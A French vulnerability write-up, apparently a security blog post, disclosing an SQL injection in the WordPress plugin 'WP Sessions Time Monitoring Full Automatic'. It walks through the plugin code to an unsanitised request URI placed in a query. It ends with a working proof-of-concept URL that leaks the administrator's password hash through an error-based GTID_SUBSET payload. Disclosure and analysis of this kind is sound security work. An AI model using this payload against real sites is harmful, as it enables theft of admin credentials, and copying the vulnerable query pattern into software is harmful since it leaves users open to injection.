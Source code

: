 ```yaml
---
title: "Injection SQL dans le plugin Wordpress WP Sessions Time Monitoring Full Automatic"
tags: [vulnérabilité]
---
```


## Présentation du plugin

Le plugin [WP Sessions Time Monitoring Full Automatic](https://wpscan.com/plugin/activitytime) (ou `activitytime` pour être plus court) a la description suivante :

> Plugin will track accurate activity time on specific page, very useful for cases like content reading time, stream or video watching time,
tracking time in LMS online learning system, working time for writing or editing elementor templates, pages editing time, post editing time and similar.
>
> Build as extension of WinterLock functionality for Accurate Sessions Time Tracking
> Features:
> 
> User time spent duration per page  
> Tracking activity time  
> Tracking working time  
> Tracking editing time  
> Tracking writing time  
> Tracking visit time  
> Tracking time on page  
> Tracking reading time  
> Tracking user time  
> Tracking elementor working time  
> Accurate session time tracking  

Ce plugin est en version 1.0.8 et la dernière activité date d'il y a 1 mois au moment de ces lignes.

## La vulnérabilité

Dans le fichier `activitytime/activitytime.php` quelques lignes permettent de déclencher l'utilisation du plugin :

```php
function run_activitytime() {

    $plugin = new Activitytime();
    $plugin->run();

}
run_activitytime();
```

Cette classe `Activitytime` est déclarée dans le fichier `activitytime/includes/class-activitytime.php`.

En voici un extrait :

```php
/**
 * The core plugin class.
 *
 * This is used to define internationalization, admin-specific hooks, and
 * public-facing site hooks.
 *
 * Also maintains the unique identifier of this plugin as well as the current
 * version of the plugin.
 *
 * @since      1.0.0
 * @package    Activitytime
 * @subpackage Activitytime/includes
 * @author     SWIT <sandi@swit.hr>
 */
class Activitytime {
  // snip 
  public function __construct() {
    if ( defined( 'ACTIVITYTIME_VERSION' ) ) {
        $this->version = ACTIVITYTIME_VERSION;
    } else {
        $this->version = '1.0.0';
    }
    $this->plugin_name = 'activitytime';

    $this->load_dependencies();
    $this->set_locale();
    $this->define_admin_hooks();
    $this->define_public_hooks();

    $this->define_plugins_upgrade_hooks();
    $this->define_shortcode_hooks();
    $this->define_widget_hooks();
    $this->define_logging_hooks();
  }
```

C'est le dernier appel effectué dans le constructeur qui nous intéresse. Là plusieurs hooks sont mis en place :

```php
/**
 * Defining all action and filter hooks for logging
 */
public function define_logging_hooks() {

    $logging_hooks = new Activitytime_Tracker( $this->get_plugin_name(), $this->get_version() );

    $this->loader->add_action( 'wp_loaded', $logging_hooks, 'activity_wp_loaded' );

    $this->loader->add_action( 'wp_head', $logging_hooks, 'init' );
    $this->loader->add_action( 'admin_head', $logging_hooks, 'init' );

    $this->loader->add_action( 'wp_head', $this, 'activitytime_tracker' );
    $this->loader->add_action( 'admin_head', $this, 'activitytime_tracker' );


    add_action( 'rest_api_init', function() {
        register_rest_route( 'activitytime/v1', '/action', [
        'methods'  => 'POST',
        'callback' => [ $this, 'activitytime_action' ],
        ] );
    } );
}
```

La classe `Activitytime_Tracker` est déclarée dans `activitytime/includes/class-activitytime-tracker.php`.

Dès lors qu'elle est instanciée, elle fait appel à la fonction `activity_log_request` de cette même classe :

```php
/**
 * hooked into 'init' action hook
 */
public function init()
{
    $this->activity_log_request();
}
```

Voici le passage vulnérable qui se charge de stocker en base de données les requêtes sur le Wordpress :

```php
// visit log
if(strpos($insert_array['request_uri'], 'ajax') === FALSE &&
   strpos($insert_array['request_uri'], 'json') === FALSE &&
   strpos($insert_array['request_uri'], 'cron') === FALSE &&
   strpos($insert_array['request_uri'], 'actt') === FALSE &&
   strpos($insert_array['request_uri'], 'activitytime') === FALSE &&
   count($_POST) == 0)
{
    $query = 'SELECT * FROM '.$table_name.' WHERE request_uri = \''.actt_get_uri().'\'';

    if(!empty(get_current_user_id()))
    {
        $query .= ' AND user_id='.get_current_user_id();
    }
    else
    {
        $query .= ' AND ip=\''.actt_get_the_user_ip().'\'';
    }

    $query .= ' AND is_visit_end = 0';

    $check_exists = $wpdb->get_row($query);

    if(empty($check_exists))
    {
        $wpdb->insert( $table_name, $insert_array );
        $id = $wpdb->insert_id;
    }
}
```

L'injection se fait au niveau du paramètre `request_uri` via la valeur retournée par `actt_get_uri`.

Cette fonction définie dans `activitytime/includes/helper-functions.php` est la suivante :

```php
function actt_get_uri($skip_query_string = FALSE)
{
    $filename = $_SERVER['REQUEST_URI'];

    $ipos = strpos($filename, "?");
    if ( !($ipos === false) && $skip_query_string === TRUE)   $filename = substr($filename, 0, $ipos);
    return urldecode($filename);
}
```

On voit que le code PHP ne fait qu'extraire la query string depuis l'URL (tout ce qui se trouve après le caractère `?`) sans aucune vérification.

Le PoC suivant permet d'extraire le hash de l'administrateur :

```php
http://localhost:8000/?p=1%27%20AND%20GTID_SUBSET%28CONCAT%280x686173683a%2C%28SELECT%20MID%28%28IFNULL%28CAST%28user_pass%20AS%20NCHAR%29%2C0x20%29%29%2C1%2C190%29%20FROM%20%60wordpress%60.wp_users%20ORDER%20BY%20ID%20LIMIT%201%2C1%29%29%2C3124%29--%20a
```

Cela va provoquer la requête SQL suivante :

```sql
SELECT * FROM wp_actt_visited_pages WHERE
request_uri = '/?p=1' AND GTID_SUBSET(CONCAT(0x686173683a,(SELECT MID((IFNULL(CAST(user_pass AS NCHAR),0x20)),1,190) FROM `wordpress`.wp_users ORDER BY ID LIMIT 1,1)),3124)-- a'
AND ip='172.19.0.1' AND is_visit_end = 0
```

L'utilisation de la fonction MySQL [GTID_SUBSET](https://dev.mysql.com/doc/refman/8.0/en/gtid-functions.html#function_gtid-subset) permet l'exfiltration du hash via une erreur Wordpress :

```
WordPress database error: [Malformed GTID set specification 'hash:$P$BLGng0fIZc6vbUELsDJDRKpYO9Jb/e0'.]
```
